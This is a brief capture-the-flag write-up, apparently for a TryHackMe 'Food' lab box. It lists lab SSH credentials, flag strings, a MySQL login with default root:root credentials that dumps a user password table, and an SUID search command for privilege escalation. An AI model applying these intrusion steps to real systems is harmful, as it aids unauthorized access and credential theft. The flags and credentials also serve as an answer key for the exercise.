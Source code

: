 # THM-Koth-Food -->

# ssh credential:
pasta:pastaisdynamic 
ramen:noodlesRTheBest


# Food-Flags:

Get flag1 under / home/bread
thm{7baf5aa8491a4b7b1c2d231a24aec575}


Pass the linpeas enumeration authorization information and find that mysql uses the default login password: root:root
/tmp$ mysql -u root -p

Get the login credentials of flag2 and ramen

mysql> select * from user;
ERROR 1146 (42S02): Table 'users.user' doesn't exist
mysql> select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+

flag2
thm{2f30841ff8d9646845295135adda8332}

Find the hidden file flag3 under / home/food

flag3
thm{58a3cb46855af54d0660b34fd20a04c1}


# Raise authority to root
find all suid:
/tmp$ find / -perm -u=s -type f 2>/dev/null

# --END--
